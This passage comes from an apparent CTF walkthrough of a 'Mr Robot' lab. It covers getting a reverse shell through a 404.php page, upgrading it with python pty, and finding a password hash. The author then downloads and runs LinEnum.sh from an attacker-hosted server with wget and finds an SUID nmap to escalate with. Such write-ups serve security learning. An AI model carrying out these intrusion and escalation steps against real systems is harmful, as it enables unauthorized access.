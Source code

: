 We can trigger the 404.php page by going to any non-existent page in the website.
Lets trigger the 404 by going to ```http://10.10.103.189/errorpage```

> We get a reverse connection to our netcat.

Let us spawn a more stable shell using python.

```bash
> python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux: cd /home
daemon@linux: ls
daemon@linux: robot
daemon@linux: ls -l
ls -l
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

We can see the second key ```key-2-of-3.txt``` in the robots home directory but since our current user is daemon, and since only the robot user has read access to it and we can't view the contents of the file. We can also see a ```password.raw-md5``` file and on inspecting the file we can see that it contains a md5 hash and it can be deduced that it is the hash of the password for the user robot.  We probably have to decode the hash and login to robot user and then read the second key.  

> Instead, let us download [linEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) which is a shell script that can enumerate and detect interesting files that can lead to privilege escalation. This script can detect easy privilege escalation vectors like SUID and other misconfigured permissions etc.

After downloading, let us start a python server on our localhost so that we can download the ```LinEnum.sh``` from our compromised shell.

```bash
python3 -m http.server 7575

```

Now on our reverse shell, let us move to the /tmp folder where we have read write access. Download the ```linEnum.sh``` from our python server and then set execute permission and then run the script.

```bash
daemon@linux:/home/robot$ cd /tmp
daemon@linux:/home/robot$ wget http://10.17.30.241:7575/linEnum.sh
daemon@linux:/home/robot$ chmod +x linEnum.sh
daemon@linux:/home/robot$ ./linEnum.sh

```

Here is the output of ```linEnum.sh``` with an interesting discovery.

![linEnum](/images/mrRobot/linEnum.png)

We can observe that the script found a possible SUID file in ```/usr/local/bin/nmap```. Let us try to gain root privilege using this file.

We can refer to [GTFObins/nmap](https://gtfobins.github.io/gtfobins/nmap/) to try to execute shell commands.

